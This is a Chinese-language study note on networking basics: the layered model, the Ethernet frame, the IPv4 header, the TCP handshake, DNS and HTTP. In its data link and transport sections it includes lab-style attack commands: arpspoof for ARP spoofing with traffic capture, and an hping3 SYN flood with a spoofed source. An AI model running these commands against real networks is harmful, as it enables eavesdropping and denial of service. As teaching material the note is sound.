 # Internet

#### 作者: YuJian

<img src="https://gimg2.baidu.com/image_search/src=http%3A%2F%2Fjordanjack.com%2Fpub%2Fstatic%2Ffrontend%2FBML%2Fdefault%2Fen_US%2Fimages%2Flogos%2Finternet-explorer.jpg&refer=http%3A%2F%2Fjordanjack.com&app=2002&size=f9999,10000&q=a80&n=0&g=0n&fmt=jpeg?sec=1620961953&t=2c02ef4be1e648b9dab13fa81ab0c989" alt="ie_icon" width="150px" />


# Internet 是什麼



​	互联网（internet），又称国际网络，指的是网络与网络之间所串连成的庞大网络，这些网络以一组通用的协议相连，形成逻辑上的单一巨大国际网络。

​	互联网始于1969年美国的阿帕网 (arpanet)。通常internet泛指互联网，而Internet则特指因特网。这种将计算机网络互相联接在一起的方法可称作“网络互联”，在这基础上发展出覆盖全世界的全球性互联网络称互联网，即是互相连接一起的网络结构。互联网并不等同万维网，万维网只是一建基于超文本相互链接而成的全球性系统，且是互联网所能提供的服务其中之一。




# 互联网、因特网、万维网三者的关系：



​	互联网包含因特网，因特网包含万维网，凡是能彼此通信的设备组成的网络就叫互联网。所以，即使仅有两台机器，不论用何种技术使其彼此通信，也叫互联网。国际标准的互联网写法是Internet，因特网是互联网的一种。因特网可不是仅有两台机器组成的互联网，它是由上千万台设备组成的互联网。

因特网使用 TCP/IP 协议让不同的设备可以彼此通信。但使用 [TCP/IP 协议](#tcp)的网络并不一定是因特网，一个局域网也可以使用 TCP/IP 协议。

​	因特网是基于 TCP/IP 协议实现的，TCP/IP 协议由很多协议组成，不同类型的协议又被放在不同的层，其中，位于应用层的协议就有很多，比如FTP、HTTP、SMTP。只要应用层使用的是HTTP协议，就称为万维网（World Wide Web）。之所以在浏览器里输入百度网址时，能看见百度网提供的网页，就是因为您的个人浏览器和百度网的服务器之间使用的是 [HTTP 协议](#http) 在交流。



# 网络体系结构



  1. **物理层**：提供透明的比特流传输,单位为比特。[参考](https://gitee.com/yujian19840/network-engineer-intermediate/blob/master/src/02/a.md)


  2. **数据链路层**：原始的传输线路变成逻辑传输线路，数据单位上帧。物理链路加上必要的通信协议而组成的逻辑链路。[参考](https://gitee.com/yujian19840/network-engineer-intermediate/blob/master/src/03/a.md)

     MAC

     MAC子层的主要功能包括数据帧的封装/卸装、帧的寻址和识别、帧的接收与发送、链路的管理、帧的差错控制。MAC层的主要访问方式有CSMA/CD、令牌环和令牌总线三种。以太网中的MAC帧格式如下：

     | 7        | 1（帧起始固定格式10101011） | 6        | 6      | 2    | 0~1500（IP数据报） | 0~46 | 4      |
     | -------- | --------------------------- | -------- | ------ | ---- | ------------------ | ---- | ------ |
     | 前导字段 | 帧起始符                    | 目的地址 | 源地址 | 类型 | 数据               | 填充 | 校验和 |

     主要協議有ARP、RARP

     ARP（Address Resolution Protocol）是根据 IP 地址获取物理地址的一个 TCP/IP 协议

     安全方面 : **ARP spoofing**

     驗證 : 使用攻擊主機 ip1 ,網關 ip0 ,被攻擊主機 ip2

     攻擊主機: 

     ```shell
     arpspoof -i eth0 -t ip2 ip0
     ```

     被攻擊主機:

     連接遠程數據庫,使用查詢語句

     攻擊主機: 

     ```shell
     tcpdump tcp port 本地連接端口 and host ip2 -s 0 -w a.cap
     ```

     解析 a.cap 包,可以監聽到攻擊主機向遠端發送的查詢語句

     

  3. **网络层**：主要功能是提供路由选择。[参考](https://gitee.com/yujian19840/network-engineer-intermediate/blob/master/src/04/a.md)

     网络层的主要协议有ICMP、IP、IGMP

     IPv4头部结构:
     
     **IP协议**

   | 0                    | 4        | 8        | 16       | 19       | 24   | 31   |
   | -------------------- | -------- | -------- | -------- | -------- | ---- | ---- |
   | 版本                 | 头部长度 | 服务类型 | 总长度   |          |      |      |
   | 标识符               |          |          | 标记     | 分片偏移 |      |      |
   | 生存时间             |          | 协议     | 头部校验 |          |      |      |
   | 源地址               |          |          |          |          |      |      |
   | 目标地址             |          |          |          |          |      |      |
   | 可选字段（长度可变） |          |          |          |          | 填充 |      |
   | 数据部分             |          |          |          |          |      |      |

     ![image-20210513010843013](./img\image-20210513010843013.png)

  4. **传输层**：传输层利用实现可靠的端到端数据传输，能实现分段，传输和组装。[参考](https://gitee.com/yujian19840/network-engineer-intermediate/blob/master/src/05/a.md)

     传输层的主要协议有 UDP、TCP

     TCP与UDP不同，它是基于连接的，也就是说：为了在服务端和客户端之间传送TCP数据，必须先建立一个虚拟链路，也就是TCP连接，建立TCP连接的标准过程是这样的：

     首先，请求端（客户端）发送一个包含SYN标志的TCP报文，SYN即同步（Synchronize），同步报文会指明客户端使用的端口以及TCP连接的初始序号；
     第二步，服务器在收到客户端的SYN报文后，将返回一个SYN+ACK的报文，表示客户端的请求被接受，同时TCP序号被加1，ACK即确认（Acknowledgment）。
     第三步，客户端也返回一个确认报文ACK给服务器端，同样TCP序列号被加1，到此一个TCP连接完成。

     安全方面 : **SYN Flooding攻击**

     驗證 : 使用攻擊主機 ip1 ,網關 ip0 ,被攻擊主機 ip2

     攻擊主機: 

     ```shell
     hping3 -q -n -a 2.2.2.2 -S -s 53 --keep -p 445 --flood 192.168.73.138
     ```

     被攻擊主機:

     ```shell
     windump -i 物理端口 -s 0 -w a.cap
     ```

     

  5. **会话层**：允许不同机器上的用户之间建立会话。

  6. **表示层**：提供通用的数据描述格式，功能：语法转换，表示，数加密解密，与压缩解压。

  7. **应用层**：向应用程序提供服务。[参考](https://gitee.com/yujian19840/network-engineer-intermediate/blob/master/src/06/a.md)

     应用层的主要协议有 Telnet、FTP、SMTP 等


#### 在数据在各层之前传递时的几个概念：
+ 封装：数据在高层向低层传输过程中，每层都对接收的原始数据添加信息，通常加一个包头与报尾。

+ 网络协议：数据交换建立的一系列规则，标准或约定

+ 服务：两个对等实体间通信使得本层能为上层提供服务，要实现本层协议还需要使用下层所提供的服务。

  


# <span id="tcp">TCP/IP协议</span>

TCP/IP（Transmission Control Protocol/Internet Protocol，传输控制协议/网际协议）是指能够在多个不同网络间实现信息传输的协议簇。TCP/IP 协议不仅仅指的是 TCP 和 IP 两个协议，而是指一个由 FTP、SMTP、TCP、UDP、IP等协议构成的协议簇， 只是因为在 TCP/IP 协议中 TCP 协议和IP协议最具代表性，所以被称为 TCP/IP 协议。



# <span id="http">DNS</span>

域名系统（英文：Domain Name System，缩写：DNS）是互联网的一项服务。它作为将域名和IP地址相互映射的一个分布式数据库，能够使人更方便地访问互联网。DNS使用UDP端口53。当前，对于每一级域名长度的限制是63个字符，域名总长度则不能超过253个字符。

安全方面 : **DNS欺騙**

# <span id="http">HTTP协议</span>

超文本传输协议（Hypertext Transfer Protocol，HTTP）是一个简单的请求-响应协议，它通常运行在 TCP 之上。它指定了客户端可能发送给服务器什么样的消息以及得到什么样的响应。请求和响应消息的头以 ASCII 形式给出；而消息内容则具有一个类似 MIME 的格式。这个简单模型是早期 Web 成功的有功之臣，因为它使开发和部署非常地直截了当。[参考](https://gitee.com/yujian19840/http)

